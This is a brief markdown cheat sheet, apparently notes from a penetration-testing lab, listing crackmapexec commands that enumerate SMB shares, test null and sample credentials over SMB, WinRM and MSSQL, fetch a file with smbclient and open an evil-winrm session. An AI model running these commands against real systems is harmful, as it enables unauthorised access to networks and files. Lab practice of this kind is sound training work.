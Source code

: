 
# Get DNS & Domain from nmap
# cme smb
- Get hostname (add hostname.domain & hostname to etc/hosts)
```
cme smb 10.10.11.187
cme smb 10.10.11.187 --shares
cme smb 10.10.11.187 -u 'DoesNotExist' -p '' --shares
cme winrm 10.10.11.187 -u 'publicuser' -p 'password1'
cme mssql 10.10.11.187 --local-auth -u 'publicuser' -p 'password1' -L
smbclient -L //10.10.11.187/Public       (where Public is the share)
get "file.pdf"                           (download file from smb)
```


# evil-winrm
```
evil-winrm -i 10.10.14.6 -u 'sql_user' -p 'password'
```